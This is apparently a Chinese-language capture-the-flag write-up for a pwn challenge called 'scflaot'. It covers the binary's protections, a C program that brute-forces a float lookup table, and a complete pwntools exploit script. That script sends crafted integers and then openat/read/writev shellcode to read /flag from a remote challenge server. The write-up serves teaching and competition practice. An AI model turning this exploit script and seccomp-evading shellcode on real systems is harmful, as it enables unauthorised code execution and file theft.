


# scflaot

> 你是否晓得你的幸运数字呢

~~float, 肯定是没打对~~

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.23-0ubuntu3|

## seccomp rules



## 解题思路

没禁`writev`和`openat`，可以打这俩

程序每次读入一个int，然后将其除以2024后放入shellcode区。
共读取0x1000次，并跳转到`0x603ff8`执行，这意味着我们还需要跳回前面

一开始考虑将shellcode乘以2024再输入，结果发现这样做数据完全不准，直接暴力打表

```c
// tab.c
// gcc -O2 tab.c && a.out
#include <stdio.h>

int main(void) {
    FILE *tab = fopen("table", "wb");   
    int tmp;
    for (int i = 0; i < 4096; i++) {
        for (int j = 0; j < 1048576; j++) {
            *(float *)&tmp = (float)((unsigned int)(i << 20) | j) / 2024.0f;
            fwrite(&tmp, 1, 4, tab);
        }
        fflush(tab);
    }
}
```

这样一来，当输入数字为`idx`时，通过访问文件中的`idx * 4:idx * 4 + 4`可以获知最后放入
shellcode 区的真正数字。然后再准备shellcode，转换为16进制后放到imhex里面爆搜，
就可以根据地址反推输入的数字



书签上对应的指令与以下脚本中的地址一一对应

图中指令：使rdx变为0x600000，然后跳转过去，再执行一次read，读入任意shellcode

## EXPLOIT

```python
from pwn import *
from rich.progress import track
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './main'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('222.67.132.186', 24026)

    sh.sendlineafter(b'input', b'1')
    sh.recvuntil(b'number') # get into code_input

    table = {0xffe: 0xcfbad200 // 4, 0xfff: 0x381598 // 4,
            0: 0x6ddbcc00 // 4, 1: 0x1070044 // 4}
    for i in track(range(0x1000), 'sending ints'):
        sh.sendline(str(table.get(i, 0)).encode())

    sh.sendlineafter(b'input', b'2')
    sleep(0.5)
    code = '''
    /* openat(0, "/flag", 0, 0) */
    mov rbx, 0x67616c662f
    push rbx
    push rsp
    pop rsi
    xor edi, edi
    xor r10, r10
    xor edx, edx
    push 0x101
    pop rax
    syscall

    /* read(rax, 0x601000, 0x50) */
    push rax
    pop rdi
    xor eax, eax
    mov rsi, 0x601000
    mov rdx, 0x50
    syscall

    /* writev(1, &[0x601000, rax], 1) */
    push 1
    pop rdi
    push 0x1    /* iov size */
    pop rdx
    push rax
    push rsi
    mov rsi, rsp
    push 0x14
    pop rax
    syscall
    '''
    sh.sendline(b'0'*7 + asm(code))

    sh.recvuntil(b'flag{')
    flag = b'flag{' + sh.recvuntil(b'}')
    success(f'Flag is: {flag.decode()}')
```
